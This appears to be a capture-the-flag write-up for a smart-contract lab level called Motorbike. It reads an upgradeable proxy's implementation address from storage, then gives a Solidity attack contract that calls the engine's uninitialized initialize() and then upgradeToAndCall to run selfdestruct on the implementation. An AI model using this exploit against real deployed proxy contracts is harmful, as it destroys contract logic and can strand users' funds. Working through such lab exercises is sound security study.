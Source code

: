Firstly we need to get address of impelemtation.
```
await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")
// returns: 0x0000000000000000000000001aadf26f5bf9551955e5e09e391cc6c1d857da60
// implementation address: 0x1aadf26f5bf9551955e5e09e391cc6c1d857da60
```
Loading IEngine interface using `0x1aadf26f5bf9551955e5e09e391cc6c1d857da60` we can see that initialize and horse power have default values.
So `initialize()` wasn't called before. We can call it, set address to `AttackMotorbike` contract.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


interface IEngine {
    function upgradeToAndCall(address, bytes memory) external payable;
    function initialize() external;
    function upgrader() external view returns(address);
    function horsePower() external view returns(uint256);
}

contract AttackMotorbike {

    function attack(IEngine engine) external {
        // initialize() wasn't call so we can call it and set upgrader to this contract
        engine.initialize();
        // this function uses delegate call to passed address and executes function passed as a second argument
        // we can use it to call function contaning selfdestruct and it will be executed on engine storage
        engine.upgradeToAndCall(address(this), abi.encodeWithSelector(this.destroy.selector));
    }

    function destroy() external {
        selfdestruct(payable(address(0)));
    }
}
```
